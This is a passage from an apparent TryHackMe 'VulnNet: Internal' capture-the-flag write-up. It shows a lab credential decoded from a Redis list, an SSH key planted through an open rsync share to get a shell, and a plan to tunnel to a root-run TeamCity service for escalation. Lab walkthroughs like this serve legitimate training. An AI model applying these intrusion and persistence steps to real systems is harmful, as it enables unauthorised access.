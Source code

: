 ![0xskar](/assets/vulnnet-internal01.png)

- ``LRANGE authlist 1 100`` give us a base64 to decode

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/VulnNet]
└─$ base64 -d authlist.b64               
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
```

- ``rsync --list-only rsync://rsync-connect@10.10.114.111/files``
- ``rsync --list-only rsync://rsync-connect@10.10.114.111/files/sys-internal/``
- ``rsync authorized_keys rsync://rsync-connect@10.10.114.111/files/sys-internal/.ssh/``

seeing that is the the users home dir we can upload authorized key and ssh in

- ``ssh-keygen -t rsa``

and finally

- ``ssh sys-internal@10.10.114.111 -i vulnnet``

* * * 

## What is the services flag? (services.txt)

- located in ``/temp`` in the smb share

* * * 

## What is the internal flag? ("internal flag")

![0xskar](/assets/vulnnet-internal01.png)

* * * 

## What is the user flag? (user.txt)

![0xskar](/assets/vulnnet-internal02.png)

* * * 

## What is the root flag? (root.txt)

- We find a folder on the root directory ``/TeamCity/`` but we dont have permissions to start the server or use it. 
- ``ps aux`` TeamCity is run at root so we can maybe find a possible way to connect to the server
- Viewing the readme we get the following: 

> By default, TeamCity will run in your browser on `http://localhost:80/` (Windows) or `http://localhost:8111/` (Linux, macOS). If you cannot access the default URL, try these Troubleshooting tips: https://www.jetbrains.com/help/teamcity/installing-and-configuring-the-teamcity-server.html#Troubleshooting+TeamCity+Installation.

- We should be able to create a tunnel to expose this application to our internet. to be able to addess this and then use that to exploit vulnerabities that Teamcity has.
